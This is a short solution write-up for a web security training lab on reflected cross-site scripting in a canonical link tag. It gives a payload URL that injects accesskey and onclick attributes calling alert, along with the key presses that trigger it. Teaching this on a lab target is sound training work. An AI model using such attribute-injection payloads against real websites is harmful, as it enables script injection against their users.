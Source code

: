 # Lab 10: Reflected XSS in canonical link tag

This lab reflects user input inside a canonical `<link>` tag and escapes angle brackets.

---

### 🎯 **Goal**

Perform a cross-site scripting attack on the home page that injects an attribute which calls the `alert` function.

> Note:
> 
> 
> The intended solution is only possible in **Chrome**.
> 

---

### 🛠️ **Solution**

1️⃣ **Visit the following URL**, replacing `YOUR-LAB-ID` with your lab ID:

```jsx
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

> This sets the X key as an access key for the whole page. When a user presses the access key, the alert function is called.
> 

2️⃣ **To trigger the exploit on yourself, press one of the following key combinations:**

- 🪟 **Windows:** `ALT + SHIFT + X`
- 🍎 **MacOS:** `CTRL + ALT + X`
- 🐧 **Linux:** `Alt + X`

---

### 🎥 **Community solutions**

▶️ [Watch video walkthrough](https://youtu.be/9kwDn7IGkW0)